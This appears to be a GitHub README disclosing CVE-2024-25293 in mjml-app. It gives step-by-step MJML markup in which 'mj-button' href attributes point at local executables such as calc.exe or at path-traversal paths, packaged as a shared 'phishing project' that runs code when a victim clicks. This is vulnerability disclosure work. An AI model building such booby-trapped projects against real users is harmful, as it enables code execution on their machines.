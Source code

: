 # MJML Local Code Execution PoC

A Proof-Of-Concept for CVE-2024-25293 vulnerability. <br><br>
mjml-app v3.0.4 & 3.1.0-beta was discovered to contain a remote code execution (RCE)
In this repository there is an example vulnerable application and proof-of-concept (POC) exploit of it.

As a PoC there is a python file that automates the process. 
---------------------------------------

### 1.Vunerability Overview:
 * Vulnerability Subject: Local Code Execution
 * Vulnerability Version: mjml-app 3.0.4-win & mjml-app 3.1.0-beta
 * Attack Type: Remote Code Execution
 * Attack Component: In the 'mj-button' tag within the affected source code file, the 'href' attribute enables local code execution.
 * Reserved CVE Number: CVE-2024-25293

---------------------------------------

### 2. Vulnerability Cause:
*  mjml-app 3.0.4-win suffers from Security Misconfiguration In the 'mj-button' tag, which can result in arbitrary code execution.
* Exploit explain
  * Running local files through event tags in mjml applications poses a security threat. In addition, the code can be executed by combining Path Traversal within the application, requiring a patch.
![image](https://github.com/EQSTLab/PoC/assets/131337101/98d338c6-812d-4329-93df-2c64bb636868)

Proof-of-concept (POC)
----------------------
**Step 1) The attacker creates an 'mj-button' with an 'href' tag and**
* **case 1) Code Execution with Path Traversal (notepad.exe)**
* **case 2) Code Execution (calc.exe)**

```html
<mjml>
  <mj-body>
    <mj-section>
      <mj-column>
        <mj-button background-color="#f45e43" color="white" href="C:\Users\EQST\Desktop\jruru\..\jruru_hacked.txt"> jruru </mj-button>
        <mj-button background-color="#f45e43" color="white" href="C:Windows/System32/calc.exe"> Code Execution </mj-button>
      </mj-column>
    </mj-section>
  </mj-body>
</mjml>
```
![mjml1](https://github.com/QnA4u/CVE/assets/131337101/862946a8-18f8-4d09-a850-6a296588780a)

**Step 2) The attacker creates the main phishing project with the following code.**
```py
<!-- header.mjml -->
<mj-section>
  <mj-column>
    <mj-text>This is a demo jruru</mj-text>
  </mj-column>
</mj-section>
<!-- main.mjml -->
<mj-include path="./index.mjml" />
```
![mjml2](https://github.com/QnA4u/CVE/assets/131337101/aaf108f9-a2d6-4e21-baf9-7f50266e5afa)

**Step 3) The victim opens the shared project and clicks the button, triggering the execution of payload(etc. calc , notepad)**
![mjml3](https://github.com/QnA4u/CVE/assets/131337101/a15a815f-94b8-4e20-b15f-a9d90c5dcdce)

---------------------------------------

### 3. Additional Information
Running exe files through href tags within an application is risky, and running files in combination with Path Traversal is a security concern. This allows phishing projects to be created and deployed to execute local files. Therefore, it is essential to modify this feature to prevent such execution.
